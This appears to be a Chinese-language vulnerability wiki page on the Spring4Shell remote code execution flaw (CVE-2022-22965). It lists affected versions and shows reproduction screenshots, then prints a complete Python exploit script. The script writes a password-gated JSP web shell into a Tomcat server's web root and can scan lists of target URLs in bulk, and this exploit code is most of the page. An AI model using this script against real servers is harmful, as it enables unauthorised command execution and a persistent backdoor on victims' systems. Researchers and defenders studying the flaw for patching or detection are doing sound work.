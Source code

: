 # Spring Core JDK9+ Spring4Shell远程命令执行漏洞 *CVE*-2022-22965

## 漏洞描述

Spring是目前世界上最受欢迎的JavaEE轻量级开源框架，是Java世界最为成功的框架之一。专注于简化Java企业级应用开发的难度、缩短开发周期。该框架存在远程代码执行漏洞。结合JDK9及以上新版本的特性可以实现对历史漏洞补丁的绕过从而实现远程代码执行。

## 漏洞影响

<a-checkbox checked>JDK 9.0+, Spring 框架, 衍生框架spring-beans-*.jar</a-checkbox></br>

## 漏洞复现

![img](../../../.vuepress/public/img/1648707142327-ac12fca3-0b71-4d7a-9a63-2afb632b2478.png)

![img](../../../.vuepress/public/img/1648707153387-68e94738-b82e-491b-b5f2-aea83a44326c.png)

![img](../../../.vuepress/public/img/1648707194053-66b17ce7-78f2-44fa-9030-706812093cf1.png)

![img](../../../.vuepress/public/img/1648707221623-63f0b8fd-68fc-40b3-93ab-3c849f549c7d.png)

![img](../../../.vuepress/public/img/1648707223946-3cd95600-be21-4bb8-b97d-0c7235f18e55.png)

![img](../../../.vuepress/public/img/1648707238287-438fa60f-0b47-4045-817e-1815e84336b0.png)

![img](../../../.vuepress/public/img/1648707240439-c13c2a1c-a1b8-4765-b3cd-bec110e89a91.png)



## 漏洞POC

```php
#coding:utf-8

import requests
import argparse
from urllib.parse import urljoin

def Exploit(url):
    headers = {"suffix":"%>//",
                "c1":"Runtime",
                "c2":"<%",
                "DNT":"1",
                "Content-Type":"application/x-www-form-urlencoded"

    }
    data = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
    try:

        go = requests.post(url,headers=headers,data=data,timeout=15,allow_redirects=False, verify=False)
        shellurl = urljoin(url, 'tomcatwar.jsp')
        shellgo = requests.get(shellurl,timeout=15,allow_redirects=False, verify=False)
        if shellgo.status_code == 200:
            print(f"漏洞存在，shell地址为:{shellurl}?pwd=j&cmd=whoami")
    except Exception as e:
        print(e)
        pass




def main():
    parser = argparse.ArgumentParser(description='Srping-Core Rce.')
    parser.add_argument('--file',help='url file',required=False)
    parser.add_argument('--url',help='target url',required=False)
    args = parser.parse_args()
    if args.url:
        Exploit(args.url)
    if args.file:
        with open (args.file) as f:
            for i in f.readlines():
                i = i.strip()
                Exploit(i)

if __name__ == '__main__':
    main()
```

## 参考文章

<a-alert type="success" message="https://github.com/craig/SpringCore0day" description="" showIcon>
</a-alert>
<br/>